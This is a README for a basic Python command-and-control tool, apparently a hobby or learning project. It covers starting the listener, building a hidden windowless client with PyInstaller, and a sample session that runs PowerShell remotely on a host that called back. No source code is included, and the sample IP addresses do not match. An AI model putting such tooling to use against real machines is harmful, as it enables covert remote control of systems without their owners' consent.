 # Stream C2

I used the TCP echo client/server using streams [example](https://docs.python.org/3/library/asyncio-stream.html#examples) and built a very basic C2

## Running (server)

Must have Python 3.7+

```
python3 server.py
** C2 Serving on ('0.0.0.0', 8888) **
```

Starting the server

## Building (client)

### Python

```python client.py```

Running the client with python (no build necessary)

### Pyinstaller

```pyinstaller.exe --onefile --noconsole .\client.py```

Builds the client into a single file executable

## Usage

```
[*] Received callback from '192.168.1.6'
[+] Command to run?
192.168.1.6> powershell.exe $PSVersionTable.PSVersion
[*] Command Sent: powershell.exe $PSVersionTable.PSVersion
[+] Results from 10.0.0.68
Major  Minor  Build  Revision
-----  -----  -----  --------
5      1      19041  610
```

Running a simple powershell command
